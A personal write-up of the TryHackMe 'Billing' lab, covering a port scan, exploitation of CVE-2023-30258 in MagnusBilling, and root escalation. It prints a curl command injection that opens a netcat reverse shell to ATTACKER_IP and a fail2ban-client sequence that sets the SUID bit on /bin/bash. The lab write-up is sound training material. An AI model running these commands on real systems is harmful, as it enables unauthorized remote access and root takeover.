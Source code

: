 ```yaml
---
title: "Writeup: TryHackMe Billing"
date: "2025-04-17T04:46:09.686Z"
draft: true
slug: "writeup-tryhackme-billing"
categories:
    - "it"
    - "writeups"
---
```



> [!info]
> - [Billing](https://tryhackme.com/room/billing)
> - Difficulty: easy
> - Platform: web, linux
>
> Gain a shell, find the way and escalate your privileges!
> Note: Bruteforcing is out of scope for this room.
>
> Answer the questions below
> 1. What is user.txt?
> 2. What is root.txt?

In this room I practiced exploiting CVEs and privilege escalation. Vulnerabilities explored:

- Command injection
- Sudoers misconfiguration

{{< toc >}} 

## Information gathering

As usual, first step, running a port scan:

```bash
$ sudo nmap -sV -T4 -n MACHINE_IP 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-07 17:23 EST
Nmap scan report for MACHINE_IP
Host is up (0.098s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
3306/tcp open  mysql   MariaDB (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

It detected SSH, HTTP, and mysql services.

> [!note]
> I should have run it with `-p-` option, because I missed [open 5038 Asterisk port](https://jaxafed.github.io/posts/tryhackme-billing/).

I attempted to access mysql, but received an error "Host is not allowed to connect to this MariaDB server".

Web service is hosting a MagnusBilling service.

![MagnusBilling login page showing service name in tab title](ctf_billing.png)

## User flag: getting reverse shell via command injection

Service seemed to me more complex than a simple bootstrapped CTF web site, so I searched for it and its known vulnerabilities.

There is a [CVE-2023-30258](https://nvd.nist.gov/vuln/detail/CVE-2023-30258) command injection vulnerability in MagnusSolution MagnusBilling 6.x and 7.x. I confirmed it with a time-based blind command injection:

```bash
curl 'http://MACHINE_IP/mbilling/lib/icepay/icepay.php?democ=iamhacked;sleep%2015;#'
```

Then I established a reverse shell:

```bash
curl 'http://MACHINE_IP/mbilling/lib/icepay/icepay.php?democ=iamhacked;nc%20-c%20bash%20ATTACKER_IP%209003;' 
```

And got a user key:

```bash
asterisk@Billing$ cat /home/magnus/user.txt                   
THM{REDACTED}
```


## Root flag: privilege escalation with fail2ban-client

To get the next flag I needed to have a root access. I did run [lienPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS), but also checked certain things manually, including `sudo -l`. It showed that current user can run `fail2ban-client`.

```bash
asterisk@Billing$ sudo -l
Matching Defaults entries for asterisk on Billing:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

[Using this instruction](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-fail2ban-client-privilege-escalation/) I added a new ban action to set SUID bit on `/bin/bash`, triggered it, got access to root shell, and got and the second flag:

```bash
asterisk@Billing$ sudo /usr/bin/fail2ban-client status
Status
|- Number of jail:      8
`- Jail list:   ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd
asterisk@Billing$ sudo /usr/bin/fail2ban-client get asterisk-iptables  actions
The jail asterisk-iptables has the following actions:
iptables-allports-ASTERISK
asterisk@Billing$ sudo /usr/bin/fail2ban-client set asterisk-iptables addaction evil
evil
asterisk@Billing$ sudo /usr/bin/fail2ban-client set asterisk-iptables action evil actionban "chmod +s /bin/bash"
chmod +s /bin/bash
asterisk@Billing$ sudo /usr/bin/fail2ban-client set asterisk-iptables banip 1.2.3.5 
1
asterisk@Billing$ /bin/bash -p
bash-5.1# cat /root/root.txt
THM{REDACTED}
```
